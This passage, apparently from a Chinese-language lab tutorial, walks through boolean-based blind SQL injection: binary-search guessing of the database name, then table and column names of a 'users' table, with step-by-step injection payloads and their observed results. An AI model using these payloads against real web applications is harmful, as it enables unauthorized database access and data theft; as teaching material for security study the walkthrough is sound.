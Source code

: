    二分法猜名字

   ```
   输入1’ and ascii(substr(databse(),1,1))>97 #，显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）；
   
   输入1’ and ascii(substr(databse(),1,1))<122 #，显示存在，说明数据库名的第一个字符的ascii值小于122（小写字母z的ascii值）；
   
   输入1’ and ascii(substr(databse(),1,1))<109 #，显示存在，说明数据库名的第一个字符的ascii值小于109（小写字母m的ascii值）；
   
   输入1’ and ascii(substr(databse(),1,1))<103 #，显示存在，说明数据库名的第一个字符的ascii值小于103（小写字母g的ascii值）；
   
   输入1’ and ascii(substr(databse(),1,1))<100 #，显示不存在，说明数据库名的第一个字符的ascii值不小于100（小写字母d的ascii值）；
   
   输入1’ and ascii(substr(databse(),1,1))>100 #，显示不存在，说明数据库名的第一个字符的ascii值不大于100（小写字母d的ascii值），所以数据库名的第一个字符的ascii值为100，即小写字母d。
   ```

3. 猜表名

   猜数量

   ```
   1’ and (select count (table_name) from information_schema.tables where table_schema=database())=1 # 
   ```

   猜名字

   首先长度

   ```
   1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 #
   ```

   而后字符

   ```
   1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 # 显示存在
   ```

4. 猜字段名

   字段数量

   ```
   1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=1 # 显示不存在
   ```

   猜字段名：先长度后名称

   ```
   1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1 # 显示不存在
   ```

5. 猜数据

   二分法

